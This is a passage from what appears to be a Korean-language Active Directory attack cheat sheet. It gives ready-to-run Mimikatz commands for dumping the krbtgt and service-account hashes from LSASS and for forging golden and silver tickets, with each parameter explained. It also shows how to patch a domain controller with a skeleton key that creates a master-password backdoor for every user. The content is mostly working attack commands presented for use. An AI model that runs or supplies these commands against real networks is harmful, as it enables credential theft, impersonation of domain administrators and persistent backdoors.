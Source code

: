 #### **`krbtgt` 해시 획득**
```powershell(title="LSASS에서 krbtgt 해시 덤프")
# 도메인 컨트롤러에서 실행 (관리자 권한 필요)
lsadump::lsa /inject /name:krbtgt
```

#### **골든 티켓 생성**
```powershell(title="Mimikatz로 골든 티켓 생성")
# /user: 사칭할 사용자 (예: Administrator)
# /domain: 도메인 이름
# /sid: 도메인 SID
# /krbtgt: krbtgt 계정의 NTLM 해시
# /id: 사칭할 사용자의 RID (Administrator는 보통 500)
kerberos::golden /user:Administrator /domain:<domain.local> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500
```

#### **골든 티켓 활용**
- 생성된 골든 티켓은 자동으로 현재 세션에 주입됩니다. 이제 도메인 컨트롤러의 공유 폴더에 접근하는 등 도메인 관리자 권한을 행사할 수 있습니다.

---

### **4. Silver Ticket (실버 티켓)**

- **개념:** 특정 서비스 계정의 NTLM 해시를 이용하여, 해당 서비스에만 유효한 위조된 서비스 티켓(Service Ticket)을 생성합니다. KDC를 거치지 않고 직접 서비스에 인증할 수 있습니다.

#### **서비스 계정 해시 획득**
```powershell(title="LSASS에서 서비스 계정 해시 덤프")
# 도메인 컨트롤러 또는 서비스가 실행되는 서버에서 실행
lsadump::lsa /inject /name:<service_account_name>
```

#### **실버 티켓 생성**
```powershell(title="Mimikatz로 실버 티켓 생성")
# /user: 사칭할 사용자
# /domain: 도메인 이름
# /sid: 도메인 SID
# /rc4: 서비스 계정의 NTLM 해시
# /spn: 서비스의 SPN (예: cifs/fileserver.domain.local)
# /service: 서비스 이름 (예: cifs)
kerberos::golden /user:Administrator /domain:<domain.local> /sid:<domain_sid> /rc4:<service_account_hash> /spn:<service_spn> /service:<service_name>
```

---

### **5. Skeleton Key (스켈레톤 키)**

- **개념:** 도메인 컨트롤러의 LSASS 프로세스를 패치하여, 모든 도메인 사용자가 특정 "만능 비밀번호"로 로그인할 수 있도록 백도어를 만듭니다. 기존 비밀번호도 여전히 유효합니다.

#### **스켈레톤 키 주입**
```powershell(title="도메인 컨트롤러에 스켈레톤 키 주입")
# 도메인 컨트롤러에서 실행 (관리자 권한 필요)
misc::skeleton
```
